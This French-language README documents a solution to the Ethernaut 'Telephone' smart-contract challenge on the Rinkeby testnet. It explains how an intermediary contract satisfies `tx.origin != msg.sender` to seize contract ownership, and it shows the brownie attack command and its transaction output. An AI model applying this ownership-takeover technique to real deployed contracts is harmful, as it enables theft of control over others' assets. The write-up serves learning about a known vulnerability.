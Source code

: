 # Telephone

## Objectifs
L'objectif de ce challenge est de devenir le owner du contrat

## Devenir owner

La méthode [`changeOwner`](./contracts/telephone.sol#12) permet de modifier la valeur de `owner` à la condition que `tx.origin` est différent de `msg.sender`

`tx.origin` est l'adresse à l'origine de la transaction alors que `msg.sender` est l'adresse invoquant la fonction.

`tx.origin` est forcément une adresse 'externe' alors que `msg.sender` peut être une adresse 'externe' ou bien celle d'un smart contract.


En passant par un contrat intermédiaire, il est facile de remplir la condition `tx.origin` != `msg.sender` et ainsi de devenir `owner`.

## Exécution du script d'attaque
Afin de pouvoir agir sur la chaine `rinkeby`, il est nécessaire de créer un fichier `.env` contenant la clé de projet [Infura](https://infura.io/) et la valeur de la clé privée du compte utilisé pour le challenge:
```shell
export WEB3_INFURA_PROJECT_ID='AABBCCDD.......'
export PRIVATE_KEY='0xDEADBEEFCACA...'
```

En utilisant la console sur le site d'[ethernaut openzeppelin](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008) on récupère l'adresse du contrat déployé pour lancer l'attaque ainsi:
```bash
$ brownie run scripts/attack.py main "0x05168D841b27eBc345c3F1172da2002c08c2ee9E" --network rinkeby
```
```console
Brownie v1.18.1 - Python development framework for Ethereum

TelephoneProject is the active project.

Running 'scripts/attack.py::main'...
Target contract: 0x05168D841b27eBc345c3F1172da2002c08c2ee9E
Transaction sent: 0x149307038f692afbc854d612134a504e12db3726fef4952d6b1871a55c5721e1
  Gas price: 1.00000001 gwei   Gas limit: 137297   Nonce: 217
  TelephoneAttack.constructor confirmed   Block: 10301019   Gas used: 124816 (90.91%)
  TelephoneAttack deployed at: 0xFFd725a265217D5c928F9c984B33209c41b04563

Transaction sent: 0xae569135f093579805040b39bdd7c77844a1a43324408a4386283bedf8d3df0f
  Gas price: 1.00000001 gwei   Gas limit: 34708   Nonce: 218
  TelephoneAttack.hack confirmed   Block: 10301020   Gas used: 31509 (90.78%)

Attack done => destroy contract
Transaction sent: 0x87734ee99ef9fd0a26bdf8714e28c2aafcf0bdc94888d928f964633332fc0d03
  Gas price: 1.00000001 gwei   Gas limit: 28821   Nonce: 219
  TelephoneAttack.destroy confirmed   Block: 10301021   Gas used: 26201 (90.91%)
```

